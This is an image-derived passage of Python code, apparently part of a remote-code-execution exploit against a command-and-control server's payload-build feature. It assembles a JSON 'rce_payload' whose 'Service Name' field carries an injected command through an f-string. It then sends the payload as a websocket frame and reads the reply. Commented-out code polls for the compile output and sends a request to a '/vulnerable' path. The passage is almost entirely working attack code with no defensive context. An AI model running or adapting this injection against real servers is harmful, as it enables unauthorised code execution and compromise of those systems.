 ```python
                "        \"Alloc\": \"Native/Syscall\",\n"
                "        \"Execute\": \"Native/Syscall\",\n"
                "        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n"
                "        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n"
                "    },\n"
                "    \"Jitter\": \"0\",\n"
                "    \"Proxy Loading\": \"None (LdrLoadDll)\",\n"
                f"    \"Service Name\": \"{injection}\",\n"
                "    \"Sleep\": \"2\",\n"
                "    \"Sleep Jmp Gadget\": \"None\",\n"
                "    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n"
                "    \"Stack Duplication\": false\n"
                "}"
            ),
            "Format": "Windows Service Exe",
            "Listener": "abc"
        },
        "SubEvent": 2
    },
    "Head": {
        "Event": 5,
        "OneTime": "true",
        "Time": "18:39:04",
        "User": USER
    }
}

payload_json = json.dumps(rce_payload)
frame = build_websocket_frame(payload_json)
write_socket(socket_id, frame)
response = read_socket(socket_id)
#sock.sendall(build_websocket_frame(json.dumps(rce_payload)))

# # ========== Wait for Compile Output ==========
# print("[*] Waiting for compile output...")
# while True:
#     try:
#         data = sock.recv(8192)
#         #text = parse_websocket_frame(data)
#         payload = parse_websocket_frame(data)
#
#         if isinstance(payload, bytes):
#             try:
#                 payload = payload.decode("utf-8")
#             except Exception as e:
#                 print("[!] Error decoding ninary frame:", e)
#                 continue
#
#         if "compile output" in payload:
#             msg = json.loads(payload)
#             out = msg["Body"]["Info"]["Message"].split("\n")
#             print("\n".join(out[1:]))  # Skip first line
#             break
#     except Exception as e:
#         print("[!] Error while receiving:", e)
#         break
#
# sock.close()
#
#
# request_data = b"GET /vulnerable HTTP/1.1\r\nHost: www.example.com\r\nConnection: close\r\n\r\n"
# write_socket(socket_id, request_data)
# print(read_socket(socket_id).decode())
```